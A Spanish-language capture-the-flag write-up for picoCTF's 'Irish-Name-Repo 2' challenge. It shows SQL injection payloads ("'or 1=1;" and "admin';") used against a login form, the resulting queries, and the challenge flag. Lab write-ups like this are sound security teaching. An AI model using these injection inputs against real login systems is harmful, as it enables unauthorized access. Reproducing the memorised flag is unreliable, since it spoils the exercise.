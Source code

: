 # Irish-Name-Repo 2


## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas
- The password is being filtered.

## Solución


- Entramos a la pagina web: [link](https://jupiter.challenges.picoctf.org/problem/33850/)  
- Se intenta entrar con un usuario y una contraseña cualquiera pero nos Manda un "Error de inicio de sesion", lo cual quiere decir no podemos entrar a encntrar la bandera.
- Para poder encontrar la bandera hacemos uso de SQL Injection.
- Dando click derecho en la pagina web seleccionamos la opción "Inspeccionar", nos abre el código funte donde borramos el hidden de una linea del código fuente esto nos permite poner un 1 en el login para poder entrar.
- Despues de haber ingresado el 1 procedemos a utilizar la Inyección "'or 1=1;" como usuario para poder encontrar la contraseña:
``` bash
username: 'or 1=1;
password: karen
SQL query: SELECT * FROM users WHERE name=''or 1=1;' AND password='karen'

SQLi detected.
```

- Al utilizar "'or 1=1;" como inyección detecta que estamos utilzando SQL Injection.

- Para poder encontrar la bandera tenemos que hacer uso de otra técnica de inyección:
``` bash
username: admin';
password: karen
SQL query: SELECT * FROM users WHERE name='admin';' AND password='karen'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```

## Bandera
picoCTF{m0R3_SQL_plz_aee925db}

## Referencias
- [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)



